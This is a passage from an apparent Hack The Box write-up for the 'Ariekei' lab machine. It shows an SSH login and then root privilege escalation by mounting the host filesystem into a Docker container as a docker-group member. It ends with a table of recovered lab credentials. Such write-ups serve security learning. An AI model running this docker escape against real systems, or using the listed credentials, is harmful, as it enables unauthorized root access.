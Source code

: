 We can `SSH` into the box as `spanishdancer`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/ariekei]
└──╼ # ssh -i spanishdancer.pem spanishdancer@10.10.10.65
Enter passphrase for key 'spanishdancer.pem': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Nov 13 10:23:41 2017 from 10.10.14.2
spanishdancer@ariekei:~$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
spanishdancer@ariekei:~$ whoami
spanishdancer
```
![[Pasted image 20210722003810.png]]

# Root Escalation on host
We see that we are in the `docker` group which means we could easily get our privilege escalated by mounting the whole host filesystem into a docker container.

We could see the available docker images to use one.
```python
spanishdancer@ariekei:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
waf-template        latest              399c8876e9ae        3 years ago         628MB
bastion-template    latest              0df894ef4624        3 years ago         251MB
web-template        latest              b2a8f8d3ef38        3 years ago         185MB
bash                latest              a66dc6cea720        3 years ago         12.8MB
convert-template    latest              e74161aded79        5 years ago         418MB
```

## Getting the root Flag
```python
spanishdancer@ariekei:~$ docker run --rm -v /:/mnt -it bash bash
bash-4.4# cd /mnt/
bash-4.4# cd root/
bash-4.4# ls -l
total 4
-r--------    1 root     root            33 Sep 24  2017 root.txt
bash-4.4# cat root.txt 
0385b6629b30f8a673f7bb279fb1570b
```
# Credentials
|Username|Password|Location|
|--|--|--|
|root|Ib3!kTEvYw6\*P7s|Beehive Docker Root Password|
|spanishdancer|purple1|SSH Passphrase of the spanishdancer SSH Private Key|
